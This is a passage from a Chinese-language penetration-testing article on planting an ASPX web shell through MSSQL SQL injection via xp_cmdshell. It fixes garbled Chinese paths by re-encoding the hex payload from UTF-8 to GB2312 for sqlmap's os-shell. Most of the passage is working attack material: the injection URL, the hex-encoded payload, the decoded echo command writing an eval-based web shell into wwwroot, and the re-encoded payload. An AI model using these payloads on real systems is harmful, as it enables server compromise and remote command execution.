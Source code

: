 - 

```php
/sql.aspx?id=1;DECLARE @clit VARCHAR(8000);SET @clit=0x6563686f205e3c25402050616765204c616e67756167653d224a73637269707422255e3e5e3c25256576616c28526571756573742e4974656d5b2278787861736563225d2c22756e7361666522293b255e3e203e20433a5c696e65747075625c777777726f6f745ce4b8ade69687e6b58be8af955c7368656c6c322e61737078;INSERT INTO sqlmapoutput(data) EXEC master..xp_cmdshell @clit--
```

![图片](https://shs3.b.qianxin.com/butian_public/f27291285bffe185db03ad5ccf869e8e5.jpg)

数据包中已将空格和符号都转成URL编码了，硬读起来确实有些费劲，可以先进行URL解码，在解码后的内容中可以看到有一串HEX(UTF-8)编码，解码后的内容就是我们执行的echo写马命令。

**解码前：**

- 

```php
0x6563686f205e3c25402050616765204c616e67756167653d224a73637269707422255e3e5e3c25256576616c28526571756573742e4974656d5b2278787861736563225d2c22756e7361666522293b255e3e203e20433a5c696e65747075625c777777726f6f745ce4b8ade69687e6b58be8af955c7368656c6c322e61737078
```

**解码后：**

- 

```php
echo ^<%@ Page Language="Jscript"%^>^<%%eval(Request.Item["xxxasec"],"unsafe");%^> > C:\inetpub\wwwroot\中文测试\shell2.aspx
```

![图片](https://shs3.b.qianxin.com/butian_public/f5c4f0433f41283540e74d20926042e52.jpg)

因为xp\_cmdshell调用的cmd.exe命令终端是GBK，所以这时我们还需要将解码后的写马命令再次进行HEX(GB2312)编码，然后BurpSuite替换掉原始数据包中的HEX(UTF-8)编码后再提交即可。

**编码后：**

- 

```php
6563686F205E3C25402050616765204C616E67756167653D224A73637269707422255E3E5E3C25256576616C28526571756573742E4974656D5B2278787861736563225D2C22756E7361666522293B255E3E203E20433A5C696E65747075625C777777726F6F745CD6D0CEC4B2E2CAD45C7368656C6C322E61737078
```

![图片](https://shs3.b.qianxin.com/butian_public/f16c6b9428fba4d3717e14188b5c399d5.jpg)

这时可以看到我们的马已经成功写入至中文路径，利用这种方式就可以完美解决两个老哥遇到的MSSQL高权限注入在sqlmap的os-shell中无法执行带有中文命令的问题。

![图片](https://shs3.b.qianxin.com/butian_public/f8b30b99a7bfc81a665d210f3de72c4a2.jpg)

**0x07 文末总结**

通过对两个老哥遇到的问题进行研究后发现其根本原因就是编码不一致，只要解决了编码问题就都不是问题了，大家可以自行学习了解下UTF-8和GB2312的URL、HEX编码之间的差别。

1、浏览器和sqlmap默认都是UTF-8，所以在提交SQL语句时中文路径的URL编码也必须是UTF-8，如果用GB2312的URL编码去提交肯定还是不行的，因为这样中文路径还是会乱码。

2、sqlmap中的os-shell参数是利用xp\_cmdshell通过cmd.exe执行的命令，cmd和powershell默认代码页为936（简体中文GBK），而sqlmap默认是以UTF-8提交的数据包，所以会乱码。
